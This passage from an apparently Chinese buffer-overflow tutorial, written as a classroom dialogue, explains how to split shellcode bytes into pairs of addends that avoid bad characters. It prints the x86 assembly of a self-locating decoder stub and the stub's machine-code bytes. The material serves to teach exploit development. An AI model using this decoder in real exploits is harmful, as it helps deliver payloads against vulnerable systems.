 “思路很清晰，但程序似乎不大好懂啊……”大家说道。

“好，我来解释一下。‘z = ShellCode[i]’取要拆分的字符；‘for(a=1; a<127; a++)’是依次尝试 a 的值；通过 z 和 a，就得到 b 为 b＝z－a；然后我们判断 a 和 b 是否符合要求，如果符合要求，就把 a 和 b 打印出来，继续拆分下一个字符；如果不合要求，‘if(a==BadChar[j] || b==BadChar[j])’就要改变 a 和 b 的值，重新拆分判断。”

“哦，这样啊！全部拆分成功就表示成功了？”

“对！我们测试一下，假设不能含有 00、FE 和 01，ShellCode 为‘\xF3\x78\xFF’，拆分的效果就如图 5－14。”

![](img/Q 版缓冲区溢出教程 164026.jpg)

“哦！F3＝2＋F1；78＝2＋76；FF＝2＋FD。果然生成符合要求的 enShellCode 了！”大家嚷道。

“嗯，那我们的解码就是每次取两个数，加起来复原？”玉波说道。

“对，解码的汇编代码如下：”

```
__asm
{
    lea eax,decode;
    call eax
}
__asm
{
    jmp decode_end //为了获得 enShellCode 的地址
    decode_start:
    pop ebx //得到 enShellCode 的开始位置 esp -> ebx
    xor ecx,ecx
    mov cx,0x101 //要解码的 enShellCode 长度 
    xor esi,esi //esi=0
    xor edi,edi //edi=0
    decode_loop:
    mov ah,[ebx+esi]
    add ah,[ebx+esi+1] 
    mov [ebx+edi],ah //0+1 放在 0 位中，2＋3 放在 1 位中......
    inc edi //edi 每次加 1
    inc esi
    inc esi //esi 每次加 2
    loop decode_loop
    jmp decode_ok //解码完毕后，跳到解码后的地方执行！
    decode_end:
    call decode_start
    decode_ok: //后面接编码后的 enShellCode
} 
```

“懂得了思路就比较容易理解了。依次取第 0 位到 ah 中，然后和第 1 位相加，得到的和存在第 0 位中；再取第 2 位和第 3 位相加，存在第 1 位中。这样就完成了解码。”

“最后，把解码的汇编提取成机器码形式的 decode。如下：”

```
decode[] = 
　　"\xEB\x1C\x5B\x33\xC9\x66\xB9\x01\x01"
　　"\x33\xF6\x33\xFF\x8A\x24\x33\x02\x64"
　　"\x33\x01\x88\x24\x3B\x47\x46\x46\xE2"
　　"\xF1\xEB\x05\xE8\xDF\xFF\xFF\xFF" 
```
